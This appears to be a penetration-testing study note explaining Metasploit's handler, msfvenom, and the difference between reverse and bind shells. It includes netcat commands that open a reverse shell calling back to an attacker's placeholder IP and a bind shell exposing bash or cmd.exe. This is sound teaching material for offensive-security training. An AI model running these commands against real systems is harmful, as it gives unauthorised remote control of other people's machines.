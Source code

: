 * The only way to interact with a meterpreter shell and easiest way to handle staged payloads.

### Msfvenom

Like multi/handler, msfvenom is technically part of the Metasploit Framework.

* Shipped as a standalone tool
* Used to generate payloads on the fly
* Msfvenom can generate payloads other than reverse and bind shells

## Types of Shell

### Reverse Shells

When the target is forced to execute code that connects back to your computer (need a listener back to attacker computer).

* Reverse shells are good way to bypass firewall rules that may prevent from connecting to arbitrary ports on the target.
  * Drawback is to configure own network to accept the shell over the internet.

#### Reverse Shell Example

A reverse shell listener to receive the connection. A simulation of sending a reverse shell.

![reverse shell](https://i.imgur.com/rN7YkJJ.png)

On the attacking machine: `sudo nc -lvnp 443`

On the the target: `nc <LOCAL-IP> <PORT> -e /bin/bash`

### Bind Shells

When the code executed on the target is used to start a listener attached to a shell directly on the target.

* Open to the internet allowing to connect to the port that the code has opened and obtain remote code execution.
  * Advantage of not requiring any configuration on own network, but may be prevented by firewalls protecting the target.

#### Bind Shell Example

Listener on the target and telling it to execute `cmd.exe`.

On the target: `nc -lvnp <PORT> -e "cmd.exe"`

On the attacking machine: `nc MACHINE_IP <PORT>`

![bind shell](https://i.imgur.com/6GUwZsw.png)

### Interactive

If used Powershell, Bash, Zsh, sh or any other standard CLI environment to allow interaction with programs after executing them.
